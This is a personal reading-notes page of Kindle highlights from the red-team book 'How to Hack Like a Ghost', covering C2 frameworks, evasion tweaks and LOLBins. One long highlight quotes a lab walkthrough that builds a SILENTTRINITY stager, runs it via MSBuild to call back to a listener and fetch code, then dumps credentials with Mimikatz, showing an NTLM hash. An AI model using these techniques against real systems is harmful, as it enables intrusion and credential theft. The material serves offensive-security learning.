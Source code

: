 title:: Document/How to Hack Like a Ghost
author:: [[@Sparc Flow]]
abbreviated-title:: How to Hack Like a Ghost 
cover:: ![Image](https://m.media-amazon.com/images/I/814wrSxBBwL._SY160.jpg)
full-title:: How to Hack Like a Ghost
start:: [[Oct 24th, 2023]]
end:: Unfinished
status:: Reading
document_type::

- Highlights
	- ```you have a new C2 backend running with the exact same configuration. Achieving this level of automation is not a whimsical way to try out the trendiest tools and programming techniques. The easier it is to spring``` ([Location 699](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=699))
	- ```community, read Permanent Record, by Edward Snowden (Macmillan, 2019). Search for darkAudax’s tutorial``` ([Location 706](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=706))
	- ```use a classic find command to hunt for source code files containing these strings and pipe them into xargs, which will call sed to replace these suspicious terms with``` ([Location 772](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=772))
	- ```compile an agent in the output folder that we will later drop on a Windows test machine: root@Lab:~/# make agent-windows``` ([Location 781](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=781))
	- ```(a Microsoft utility to register DLLs in the Windows Registry so they can be called by other programs; it can be used to trick DLLs like srcobj.dll into executing commands), mshta (a Microsoft utility that executes HTML Applications,``` ([Location 804](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=804))
	- ```with the command use implant/, from dumping passwords with Mimikatz to pivoting to other machines. If you’re familiar with Empire, then you will feel right at home with Koadic.``` ([Location 835](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=835))
	- ```perfectly safe-looking evil bombshells. The tool’s serverside requires Python 3.7, so make sure to have Python properly working``` ([Location 857](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=857))
	- ```payloads, and so on, which is very useful in team operations. You need to leave the server running in the first terminal and then open a second to connect to``` ([Location 865](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=865))
	- ```[1] ST (stagers) >> generate customListener [+] Generated stager to ./stager.xml If we take a closer look at the stager.xml file, we can see it embeds a base64-encoded version of an executable called naga.exe (SILENTTRINITY/core/teamserver/data/naga.exe), which connects back to the listener we set up and then downloads a ZIP file containing Boo-Lang DLLs and a script to bootstrap the environment. Once we compile and run this payload on the fly using MSBuild, we will have a full Boo environment running on the target’s machine, ready to execute whatever shady payload we send its way: # Start agent PS C:\> C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml [*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30... [*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30) [1] ST (listeners)(https) >> sessions [1] ST (sessions) >> list Name           >> User         >> Address     >> Last Checkin 36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04 Notice how, unlike with the other two frameworks, we did not bother customizing the payload to evade Windows Defender. It just works . . . for now! We can deliver any of the current 69 post-exploitation modules, from loading an arbitrary assembly (.NET executable) in memory to regular Active Directory reconnaissance and credential dumping: [1] ST (sessions) >> modules [1] ST (modules) >> use boo/mimikatz [1] ST (modules)(boo/mimikatz) >> run all [*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result (id: zpqY2hqD1l) [+] Running in high integrity process--snip-- msv : [00000003] Primary * Username : wkadmin    * Domain   : PIANO.LOCAL * NTLM     : adefd76971f37458b6c3b061f30e3c42--snip-- The project is still very young, yet it displays tremendous potential. If you are a complete beginner, though, you may suffer from the lack of documentation and explicit error handling. The tool is still in``` ([Location 875](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=875))
	- ```the tooling necessary to faithfully reproduce and automate almost every painful aspect of the manual setup. We’ll stick with``` ([Location 910](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=910))